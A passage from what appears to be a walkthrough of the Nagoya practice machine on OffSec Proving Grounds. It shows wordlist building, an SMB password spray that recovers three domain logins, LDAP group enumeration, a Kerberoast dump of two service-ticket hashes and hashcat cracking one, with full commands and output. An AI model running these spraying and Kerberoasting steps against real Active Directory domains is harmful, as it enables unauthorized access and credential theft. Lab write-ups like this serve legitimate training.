┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ cat seasons.txt 
winter
Winter
spring
Spring
summer
Summer
autumn
Autumn
fall
Fall
nagoya
Nagoya
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ vi years.txt  
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ cat years.txt  
2022
2023

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ hashcat -a 1 --stdout seasons.txt years.txt > custom_wordlist.txt 
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ wc -l custom_wordlist.txt 
24 custom_wordlist.txt
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ cat custom_wordlist.txt > custom_wordlist2.txt
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ hashcat -a 6 --stdout --markov-disable custom_wordlist.txt ?s >> custom_wordlist2.txt 
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ wc -l custom_wordlist2.txt
816 custom_wordlist2.txt
```

### Password spray

Now we have what we need to do a password spray attack with NetExec. To mimimize the output we show only successful authentications.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc smb $TARGET_IP -u usernames3.txt -p custom_wordlist2.txt -d nagoya-industries.com --continue-on-success | grep '\[+\]'
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SMB                      192.168.134.21  445    NAGOYA           [+] nagoya-industries.com\craig.carr:Spring2023 
SMB                      192.168.134.21  445    NAGOYA           [+] nagoya-industries.com\fiona.clark:Summer2023 
SMB                      192.168.134.21  445    NAGOYA           [+] nagoya-industries.com\andrea.hayes:Nagoya2023 
```

We have three sets of credentials:

|Username|Password|
|----|----|
|craig.carr|Spring2023|
|fiona.clark|Summer2023|
|andrea.hayes|Nagoya2023|

### LDAP Enumeration

With credentials we can check for domain groups of importance.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc ldap $TARGET_IP -u craig.carr -p 'Spring2023' --groups
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
LDAP        192.168.134.21  389    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 (name:NAGOYA) (domain:nagoya-industries.com) (signing:None) (channel binding:No TLS cert) 
LDAP        192.168.134.21  389    NAGOYA           [+] nagoya-industries.com\craig.carr:Spring2023 
LDAP        192.168.134.21  389    NAGOYA           -Group-                                  -Members- -Description- 
LDAP        192.168.134.21  389    NAGOYA           Administrators                           3         Administrators have complete and unrestricted access to the computer/domain
LDAP        192.168.134.21  389    NAGOYA           Users                                    3         Users are prevented from making accidental or intentional system-wide changes and can run most applications 
LDAP        192.168.134.21  389    NAGOYA           Guests                                   2         Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted 
LDAP        192.168.134.21  389    NAGOYA           Print Operators                          0         Members can administer printers installed on domain controllers
LDAP        192.168.134.21  389    NAGOYA           Backup Operators                         0         Backup Operators can override security restrictions for the sole purpose of backing up or restoring files 
LDAP        192.168.134.21  389    NAGOYA           Replicator                               0         Supports file replication in a domain
LDAP        192.168.134.21  389    NAGOYA           Remote Desktop Users                     0         Members in this group are granted the right to logon remotely
LDAP        192.168.134.21  389    NAGOYA           Network Configuration Operators          0         Members in this group can have some administrative privileges to manage configuration of networking features 
LDAP        192.168.134.21  389    NAGOYA           Performance Monitor Users                0         Members of this group can access performance counter data locally and remotely
LDAP        192.168.134.21  389    NAGOYA           Performance Log Users                    0         Members of this group may schedule logging of performance counters, enable trace providers, and collect event traces both locally and via remote access to this computer 
LDAP        192.168.134.21  389    NAGOYA           Distributed COM Users                    0         Members are allowed to launch, activate and use Distributed COM objects on this machine. 
LDAP        192.168.134.21  389    NAGOYA           IIS_IUSRS                                0         Built-in group used by Internet Information Services.
LDAP        192.168.134.21  389    NAGOYA           Cryptographic Operators                  0         Members are authorized to perform cryptographic operations.
LDAP        192.168.134.21  389    NAGOYA           Event Log Readers                        0         Members of this group can read event logs from local machine
LDAP        192.168.134.21  389    NAGOYA           Certificate Service DCOM Access          0         Members of this group are allowed to connect to Certification Authorities in the enterprise 
LDAP        192.168.134.21  389    NAGOYA           RDS Remote Access Servers                0         Servers in this group enable users of RemoteApp programs and personal virtual desktops access to these resources. In Internet-facing deployments, these servers are typically deployed in an edge network. This group needs to be populated on servers running RD Connection Broker. RD Gateway servers and RD Web Access servers used in the deployment need to be in this group. 
LDAP        192.168.134.21  389    NAGOYA           RDS Endpoint Servers                     0         Servers in this group run virtual machines and host sessions where users RemoteApp programs and personal virtual desktops run. This group needs to be populated on servers running RD Connection Broker. RD Session Host servers and RD Virtualization Host servers used in the deployment need to be in this group. 
LDAP        192.168.134.21  389    NAGOYA           RDS Management Servers                   0         Servers in this group can perform routine administrative actions on servers running Remote Desktop Services. This group needs to be populated on all servers in a Remote Desktop Services deployment. The servers running the RDS Central Management service must be included in this group. 
LDAP        192.168.134.21  389    NAGOYA           Hyper-V Administrators                   0         Members of this group have complete and unrestricted access to all features of Hyper-V. 
LDAP        192.168.134.21  389    NAGOYA           Access Control Assistance Operators      0         Members of this group can remotely query authorization attributes and permissions for resources on this computer. 
LDAP        192.168.134.21  389    NAGOYA           Remote Management Users                  1         Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user. 
LDAP        192.168.134.21  389    NAGOYA           Storage Replica Administrators           0         Members of this group have complete and unrestricted access to all features of Storage Replica. 
LDAP        192.168.134.21  389    NAGOYA           Domain Computers                         0         All workstations and servers joined to the domain
LDAP        192.168.134.21  389    NAGOYA           Domain Controllers                       0         All domain controllers in the domain
LDAP        192.168.134.21  389    NAGOYA           Schema Admins                            1         Designated administrators of the schema
LDAP        192.168.134.21  389    NAGOYA           Enterprise Admins                        1         Designated administrators of the enterprise
LDAP        192.168.134.21  389    NAGOYA           Cert Publishers                          0         Members of this group are permitted to publish certificates to the directory
LDAP        192.168.134.21  389    NAGOYA           Domain Admins                            1         Designated administrators of the domain
LDAP        192.168.134.21  389    NAGOYA           Domain Users                             0         All domain users
LDAP        192.168.134.21  389    NAGOYA           Domain Guests                            0         All domain guests
LDAP        192.168.134.21  389    NAGOYA           Group Policy Creator Owners              1         Members in this group can modify group policy for the domain
LDAP        192.168.134.21  389    NAGOYA           RAS and IAS Servers                      0         Servers in this group can access remote access properties of users
LDAP        192.168.134.21  389    NAGOYA           Server Operators                         0         Members can administer domain servers
LDAP        192.168.134.21  389    NAGOYA           Account Operators                        0         Members can administer domain user and group accounts
LDAP        192.168.134.21  389    NAGOYA           Pre-Windows 2000 Compatible Access       1         A backward compatibility group which allows read access on all users and groups in the domain 
LDAP        192.168.134.21  389    NAGOYA           Incoming Forest Trust Builders           0         Members of this group can create incoming, one-way trusts to this forest
LDAP        192.168.134.21  389    NAGOYA           Windows Authorization Access Group       1         Members of this group have access to the computed tokenGroupsGlobalAndUniversal attribute on User objects 
LDAP        192.168.134.21  389    NAGOYA           Terminal Server License Servers          0         Members of this group can update user accounts in Active Directory with information about license issuance, for the purpose of tracking and reporting TS Per User CAL usage 
LDAP        192.168.134.21  389    NAGOYA           Allowed RODC Password Replication Group  0         Members in this group can have their passwords replicated to all read-only domain controllers in the domain 
LDAP        192.168.134.21  389    NAGOYA           Denied RODC Password Replication Group   8         Members in this group cannot have their passwords replicated to any read-only domain controllers in the domain 
LDAP        192.168.134.21  389    NAGOYA           Read-only Domain Controllers             0         Members of this group are Read-Only Domain Controllers in the domain
LDAP        192.168.134.21  389    NAGOYA           Enterprise Read-only Domain Controllers  0         Members of this group are Read-Only Domain Controllers in the enterprise
LDAP        192.168.134.21  389    NAGOYA           Cloneable Domain Controllers             0         Members of this group that are domain controllers may be cloned.
LDAP        192.168.134.21  389    NAGOYA           Protected Users                          0         Members of this group are afforded additional protections against authentication security threats. See http://go.microsoft.com/fwlink/?LinkId=298939 for more information. 
LDAP        192.168.134.21  389    NAGOYA           Key Admins                               0         Members of this group can perform administrative actions on key objects within the domain. 
LDAP        192.168.134.21  389    NAGOYA           Enterprise Key Admins                    0         Members of this group can perform administrative actions on key objects within the forest. 
LDAP        192.168.134.21  389    NAGOYA           DnsAdmins                                0         DNS Administrators Group
LDAP        192.168.134.21  389    NAGOYA           DnsUpdateProxy                           0         DNS clients who are permitted to perform dynamic updates on behalf of some other clients (such as DHCP servers). 
LDAP        192.168.134.21  389    NAGOYA           SQLServer2005SQLBrowserUser$NAGOYA       0         Members in the group have the required access and privileges to be assigned as the log on account for the associated instance of SQL Server Browser. 
LDAP        192.168.134.21  389    NAGOYA           employees                                21 
LDAP        192.168.134.21  389    NAGOYA           helpdesk                                 4 
LDAP        192.168.134.21  389    NAGOYA           developers                               5   

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc ldap $TARGET_IP -u craig.carr -p 'Spring2023' --groups "Remote Management Users"
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
LDAP        192.168.134.21  389    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 (name:NAGOYA) (domain:nagoya-industries.com) (signing:None) (channel binding:No TLS cert) 
LDAP        192.168.134.21  389    NAGOYA           [+] nagoya-industries.com\craig.carr:Spring2023 
LDAP        192.168.134.21  389    NAGOYA           developers
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc ldap $TARGET_IP -u craig.carr -p 'Spring2023' --groups "developers" 
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
LDAP        192.168.134.21  389    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 (name:NAGOYA) (domain:nagoya-industries.com) (signing:None) (channel binding:No TLS cert) 
LDAP        192.168.134.21  389    NAGOYA           [+] nagoya-industries.com\craig.carr:Spring2023 
LDAP        192.168.134.21  389    NAGOYA           Elaine.Brady
LDAP        192.168.134.21  389    NAGOYA           Christopher.Lewis
LDAP        192.168.134.21  389    NAGOYA           Megan.Johnson
LDAP        192.168.134.21  389    NAGOYA           Damien.Chapman
LDAP        192.168.134.21  389    NAGOYA           Joanne.Lewis
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc ldap $TARGET_IP -u craig.carr -p 'Spring2023' --groups "helpdesk"  
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
LDAP        192.168.134.21  389    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 (name:NAGOYA) (domain:nagoya-industries.com) (signing:None) (channel binding:No TLS cert) 
LDAP        192.168.134.21  389    NAGOYA           [+] nagoya-industries.com\craig.carr:Spring2023 
LDAP        192.168.134.21  389    NAGOYA           svc_helpdesk
LDAP        192.168.134.21  389    NAGOYA           Iain.White
LDAP        192.168.134.21  389    NAGOYA           Joanna.Wood
LDAP        192.168.134.21  389    NAGOYA           Bethan.Webster
```

We have a number of developers that can access the machine with WinRM and a service account (`svc_helpdesk`) for the helpdesk.

### Kerberoast attack

While we're at it, let's also try a kerberoast attack.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc ldap $TARGET_IP -u craig.carr -p 'Spring2023' --kerberoasting tgtrep_hashes.txt 
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
LDAP        192.168.134.21  389    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 (name:NAGOYA) (domain:nagoya-industries.com) (signing:None) (channel binding:No TLS cert) 
LDAP        192.168.134.21  389    NAGOYA           [+] nagoya-industries.com\craig.carr:Spring2023 
LDAP        192.168.134.21  389    NAGOYA           [*] Skipping disabled account: krbtgt
LDAP        192.168.134.21  389    NAGOYA           [*] Total of records returned 2
LDAP        192.168.134.21  389    NAGOYA           [*] sAMAccountName: svc_helpdesk, memberOf: CN=helpdesk,CN=Users,DC=nagoya-industries,DC=com, pwdLastSet: 2023-04-30 09:31:06.190955, lastLogon: <never>
LDAP        192.168.134.21  389    NAGOYA           $krb5tgs$23$*svc_helpdesk$NAGOYA-INDUSTRIES.COM$nagoya-industries.com\svc_helpdesk*$22790ad829ac3d06773ae2230397830a$914e2ed71dbe628ee7df8f538e2de3758fbfea5df5c28026f0ca42557976a5bd133da8ac98846c15b7d9c32efb08c08374d70b6fb123a711432cf79f9f0d2db5c23ebde9c8fcb3079a61278ac2c468cb50359caca6cb638083e66c50bf2a299c3add83a83c244c0828c8e0896c859ee817763d900c6a21b1f3e739fbeee4872641340e9ab6f06a20f08cd4c29970a2209562680d54e892fe41d24b146d3d79a5aecbe2e30977e903a8a2c64aed16d62e7b547ffced97b45d4825729def437427e8d9f99a6c3322d0ddc9d99b3df594f9fc45d83d46513738491325c1a7e035d4bd1c335f27e5733463380d921a7029747f4184520fd46cafd5f588d2a0888fc641030a8ff953a0e7defab13fe4b283288cf6aa0f1f604a074c38a753160e7450f5cd7b005a0b43bfb19187c9cc32771f026523fa7ba0a0b6a2732ef159451560f78d735e306b3363b5ccdc9890e1554df1446d0acfdc34d159bfbe8c1171e0a4347dab4c87067edba2e09b919104722abbaac6c5776f257fd861a54ff5703b3b390ff3d999faf2e5b85f9db2824d9dcea23e6fa7daa274af5ef7435182141e867b3b58bdf052771ba97d5296996ffede339b77c6f02a7f6c7462ec628b97e5713b471e3a1e2c3c1bb835b8a32177530e9866d201663b4d282dae6bc857dd896a87fe939746e0e8555f75995c9ea4e8927aaae8984d0fbe687016663f94d2e1a8ccca55d0caed4eb90d42938e87cc7a6a8651b02403faa50f38f8b77b1fdbf71d82e661a713aac3eb028ff9970aadb131759ede92573a4807e4afcce11195d1b7880d484976bcb1a1281871b2099b6a43b69c19bb59af1f7e5dc15e91a7a5076a91c13de94cfa33511d37e5b7eb60c355febb1cbd85820a7bb93cbf92aef8f0c1140e9d060a35fab7c8531de7acc26c057a4c083f7f65d92e6c2590845951d79b30a57f08bd902978b4e3613b78e3a58167203f857a212c8c04b69e413bbc91c17c13195e5f4e50bf45010d9ecf196f36e3788598d290d8db711f76fc0df420686c6f3b0e10d1ef6e8c8808d4dfef6983260a0aa539114dcf5b971c88d83c34ecda8d51b8bb7268301f921b5d2667e9065a962e2d3791e5a805bbb61d2abc24d2edd73c9ee16159f4ce097cb3176a5e32afcf6bc6790aaacd47e47118747f08bd19be699bc0fca9788f474b090f90ce5e62cb0f97b8ece03512c8863017a2e3c383752e2742250035e94c238d17e6ff158641d4559824f391e4938ca5d927c4f55250a82b929a4c0e8501c683238f19e47542592345032bf0dedae6c303b9f15c29e6dde0d9f9b2279a3cc606a6c2f4650295a205b00f5bb900009b149e950afbb3821841629ec5913a986e80cc950b425c990875513eab9e977d20f1f93d546b996a11b7987dd1c11b3225e5b0b149c7792b7b26d2fd55bd455d03549871d74f14cf294142d57a8be47afbbb39c16cfcd5af2676b0c18103516c3c2d8ae6ab656beb402d3bddb68ea267240f487c03dbb50cf767daaa973e0f24b61d292f6f5b0a01c7c1e59da0c44e850c84ee46c778c5ed945cfe5d730db14da5f6ffc32a709345cb2ac9e02ed36bddccbfe5cf91ae 
LDAP        192.168.134.21  389    NAGOYA           [*] sAMAccountName: svc_mssql, memberOf: [], pwdLastSet: 2023-04-30 09:45:33.288595, lastLogon: 2024-08-02 04:59:53.706593
LDAP        192.168.134.21  389    NAGOYA           $krb5tgs$23$*svc_mssql$NAGOYA-INDUSTRIES.COM$nagoya-industries.com\svc_mssql*$9a1582f1424f73d05da5fb53ee173faa$38653910d57e41bd0de04ea67a282868fb0cdb76e34a8303a50f454d56e5c3f5f072666aaa77369fb3318f6fb8c3ea6be4e8254eead1362160bb2679df1fc602696019ffa7ebb4a44cdf56975d1f5b6c81674b5ea711499d23d5aec65e14df092004fa156893b0140ac17a37f83f4607ce83418d6686557c37605a4b9d39fd3f396b6c813939671bba9c682bb6aa79e7841e8009a47ecde5f8c40e44d92456165f3a2a128c2ae67746d15a91a90d57b0326694253222798a3d8c91ea637370ac819ff09268d112b40d758ccf90c75aa427162b5e8beac44fb65e0cfcde8e201953da8fb4b811f33f20b02b0567e31c419382f0e3f25a6d4ed75289a76dc931f33c7d15c75d508ba83fc1f2f3e30b7760b3cb85755365bf453da906e72f6c700ec7f21a5a03f9565b8105de7f44e079fd4808e294b534036416a1d6b81787dd692cebdcc8e0c1a34cc7c40756600a8d2ed2d2f5a4bf295060e785ae783f825e8fd371067841ef079b7f8fd928a37ea7f575b751507f79f243cb6baa75c310dc8eda361f6c488f8a5b852ee1835e04bc9cf7a759de4ea563ff73fa37aa0d3afaf87d2056cbaae62f935b1ea0828337ce4db0b0ce16b8607669ab8634558e7a66f83352bf69e9faa5b8f24616e2ff01be073581577b9e5f191159a2ba0447bb2343f6806578e9bccb2978cb9b3585b342e26b130484853a8ee93b43f4e8154292b810dff826226320b8b1943e0f490cb4e4fc4998843b73b6504c02d219b1fb8968e09e28a212af4161603a2d5bae7a1489a871bd0828661909d844e72684a3e8d376428ae532e13579feb3b6da8315da13d386639b4adaa1117e039f26736602fb524a0b5dee28599e8693b04d96e45325cc9c39689afbba2c82ba93b1dde6e71c7366ce40d7cdcf162db156cdbe3ddec4783667ffe141748da623ee08547df23b44cb1a4a6cf5b6ddf1aeabcacfbc0fd866657f4806b9ac5ac6e1c76ab8338122acfba6e24a20217e8b65838a2d5dc44c782326cf5056ce1417d0db73188e3ca6277878a2d5709170243811dbf968421deb6a150137cfd42b6dcd075133977d4ee434a1be0102c34bcf5a1ed581c861417640ebacd51dbef11f322042de6c01d744f1c6dd2071343ea9615dd66f4c7fd927a726714e3ea77c134eb356eb848b2198d07d82600e7eef77ff080c6aef095f106868ad14f71e9bfc3ed37907027e03e5e3e7d90b3e48100505d8fa16300d6a99e74b887a2b677a88346dfc693cd47b79b322afa6b08793299287321aef12da5313ef65a5e81b8798a0a497cce139390462de965e75fcd0c0a730668e48073a9fb745b06d850dec70a1f9936c53e04799cb776f19c95bf19d4eb10019d4a9348d102b2bc34c48f3f11e1bee1279133a57a8c22c8921488699484f173baae67e4083ac765ebbd2b4f33c79f74450ab5201554925712f1ee968a71831b30401ab9e3622889cd94c604366dd574eb63a1a21603fb602258ea57ef117b76353fb87058a6a3459689da87ab945d5005df3eb66b8d5341c4419a4e302fe4fb075b757e6b3b62544a8acf17c7b204d3a445c27ffb9d9d25d723756ff2f71ff8421fbf3  
```

So far so good. Let's try to crack the hashes with the Rockyou wordlist.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ hashcat -m 13100 tgtrep_hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #01: cpu-sandybridge-Intel(R) Core(TM) i7-4790 CPU @ 3.60GHz, 2945/5890 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 514 MB (4354 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5tgs$23$*svc_mssql$NAGOYA-INDUSTRIES.COM$nagoya-industries.com\svc_mssql*$9a1582f1424f73d05da5fb53ee173faa$38653910d57e41bd0de04ea67a282868fb0cdb76e34a8303a50f454d56e5c3f5f072666aaa77369fb3318f6fb8c3ea6be4e8254eead1362160bb2679df1fc602696019ffa7ebb4a44cdf56975d1f5b6c81674b5ea711499d23d5aec65e14df092004fa156893b0140ac17a37f83f4607ce83418d6686557c37605a4b9d39fd3f396b6c813939671bba9c682bb6aa79e7841e8009a47ecde5f8c40e44d92456165f3a2a128c2ae67746d15a91a90d57b0326694253222798a3d8c91ea637370ac819ff09268d112b40d758ccf90c75aa427162b5e8beac44fb65e0cfcde8e201953da8fb4b811f33f20b02b0567e31c419382f0e3f25a6d4ed75289a76dc931f33c7d15c75d508ba83fc1f2f3e30b7760b3cb85755365bf453da906e72f6c700ec7f21a5a03f9565b8105de7f44e079fd4808e294b534036416a1d6b81787dd692cebdcc8e0c1a34cc7c40756600a8d2ed2d2f5a4bf295060e785ae783f825e8fd371067841ef079b7f8fd928a37ea7f575b751507f79f243cb6baa75c310dc8eda361f6c488f8a5b852ee1835e04bc9cf7a759de4ea563ff73fa37aa0d3afaf87d2056cbaae62f935b1ea0828337ce4db0b0ce16b8607669ab8634558e7a66f83352bf69e9faa5b8f24616e2ff01be073581577b9e5f191159a2ba0447bb2343f6806578e9bccb2978cb9b3585b342e26b130484853a8ee93b43f4e8154292b810dff826226320b8b1943e0f490cb4e4fc4998843b73b6504c02d219b1fb8968e09e28a212af4161603a2d5bae7a1489a871bd0828661909d844e72684a3e8d376428ae532e13579feb3b6da8315da13d386639b4adaa1117e039f26736602fb524a0b5dee28599e8693b04d96e45325cc9c39689afbba2c82ba93b1dde6e71c7366ce40d7cdcf162db156cdbe3ddec4783667ffe141748da623ee08547df23b44cb1a4a6cf5b6ddf1aeabcacfbc0fd866657f4806b9ac5ac6e1c76ab8338122acfba6e24a20217e8b65838a2d5dc44c782326cf5056ce1417d0db73188e3ca6277878a2d5709170243811dbf968421deb6a150137cfd42b6dcd075133977d4ee434a1be0102c34bcf5a1ed581c861417640ebacd51dbef11f322042de6c01d744f1c6dd2071343ea9615dd66f4c7fd927a726714e3ea77c134eb356eb848b2198d07d82600e7eef77ff080c6aef095f106868ad14f71e9bfc3ed37907027e03e5e3e7d90b3e48100505d8fa16300d6a99e74b887a2b677a88346dfc693cd47b79b322afa6b08793299287321aef12da5313ef65a5e81b8798a0a497cce139390462de965e75fcd0c0a730668e48073a9fb745b06d850dec70a1f9936c53e04799cb776f19c95bf19d4eb10019d4a9348d102b2bc34c48f3f11e1bee1279133a57a8c22c8921488699484f173baae67e4083ac765ebbd2b4f33c79f74450ab5201554925712f1ee968a71831b30401ab9e3622889cd94c604366dd574eb63a1a21603fb602258ea57ef117b76353fb87058a6a3459689da87ab945d5005df3eb66b8d5341c4419a4e302fe4fb075b757e6b3b62544a8acf17c7b204d3a445c27ffb9d9d25d723756ff2f71ff8421fbf3:Service1
Cracking performance lower than expected? 

* Append -O to the commandline.
  This lowers the maximum supported password/salt length (usually down to 32).

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted. 

 
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: tgtrep_hashes.txt
Time.Started.....: Wed Nov 18 15:06:45 2026 (12 secs)
Time.Estimated...: Wed Nov 18 15:06:57 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  1448.5 kH/s (2.36ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/2 (50.00%) Digests (total), 1/2 (50.00%) Digests (new), 1/2 (50.00%) Salts
Progress.........: 28688770/28688770 (100.00%)
Rejected.........: 0/28688770 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#01..: Salt:1 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...:  kristenanne -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#01.: Util: 58%

Started: Wed Nov 18 15:06:26 2026
Stopped: Wed Nov 18 15:06:58 2026
```

Another set of credentials:

- Username: `svc_mssql`
- Password: `Service1`

The strange thing is that no MS-SQL port was open in our scan!?

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ nxc-sweep $TARGET_IP -u svc_mssql -p 'Service1'
[*] Starting NXC sweep for 192.168.134.21 as svc_mssql ...
 
[+] Port 445 open. Checking smb ... 
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block 
  return result 
SMB         192.168.134.21  445    NAGOYA           [*] Windows 10 / Server 2019 Build 17763 x64 (name:NAGOYA) (domain:nagoya-industries.com) (signing:True) (SMBv1:None) (Null Auth:True) 
SMB         192.168.134.21  445    NAGOYA           [+] nagoya-industries.com\svc_mssql:Service1 
SMB         192.168.134.21  445    NAGOYA           [*] Enumerated shares
SMB         192.168.134.21  445    NAGOYA           Share           Permissions     Remark
SMB         192.168.134.21  445    NAGOYA           -----           -----------     ------
SMB         192.168.134.21  445    NAGOYA           ADMIN$                          Remote Admin
SMB         192.168.134.21  445    NAGOYA           C$                              Default share
SMB         192.168.134.21  445    NAGOYA           IPC$            READ            Remote IPC
SMB         192.168.134.21  445    NAGOYA           NETLOGON        READ            Logon server share 
SMB         192.168.134.21  445    NAGOYA           SYSVOL          READ            Logon server share 

[+] Port 5985 open. Checking winrm ...
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block 
  return result 
WINRM       192.168.134.21  5985   NAGOYA           [*] Windows 10 / Server 2019 Build 17763 (name:NAGOYA) (domain:nagoya-industries.com) 
WINRM       192.168.134.21  5985   NAGOYA           [-] nagoya-industries.com\svc_mssql:Service1

[+] Port 3389 open. Checking rdp ...
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block 
  return result 
/usr/lib/python3/dist-packages/pyparsing/core.py:5579: SyntaxWarning: 'return' in a 'finally' block 
  return f"{type(self).__name__}: {retString}" 
RDP         192.168.134.21  3389   NAGOYA           [*] Windows 10 or Windows Server 2016 Build 17763 (name:NAGOYA) (domain:nagoya-industries.com) (nla:False) 
RDP         192.168.134.21  3389   NAGOYA           [+] nagoya-industries.com\svc_mssql:Service1 

[-] Port 1433 closed/filtered. Skipping mssql
 
[-] Port 21 closed/filtered. Skipping ftp 
 
[*] All active services checked.   
```

But we could check out the SMB-shares a bit further.

### Enumerate the SYSVOL share

The most interesting share ought to be `NETLOGON`.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ smbmap -H $TARGET_IP -u svc_mssql -p 'Service1' --depth 5 -r NETLOGON 

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB 
[*] Established 1 SMB connections(s) and 1 authenticated session(s) 
 
[+] IP: 192.168.134.21:445      Name: NAGOYA.nagoya-industries.com      Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        ./NETLOGON
        dr--r--r--                0 Sun Apr 30 10:07:13 2023    .
        dr--r--r--                0 Sun Apr 30 10:07:13 2023    ..
        dr--r--r--                0 Sun Apr 30 10:07:07 2023    ResetPassword
        ./NETLOGON//ResetPassword
        dr--r--r--                0 Sun Apr 30 10:07:07 2023    .
        dr--r--r--                0 Sun Apr 30 10:07:07 2023    ..
        fr--r--r--             5120 Sun Apr 30 10:07:07 2023    ResetPassword.exe
        fr--r--r--              189 Sun Apr 30 10:07:07 2023    ResetPassword.exe.config
        fr--r--r--            28552 Sun Apr 30 10:07:07 2023    System.IO.FileSystem.AccessControl.dll
        fr--r--r--            65116 Sun Apr 30 10:07:07 2023    System.IO.FileSystem.AccessControl.xml
        fr--r--r--            35952 Sun Apr 30 10:07:07 2023    System.Security.AccessControl.dll
        fr--r--r--           231631 Sun Apr 30 10:07:07 2023    System.Security.AccessControl.xml
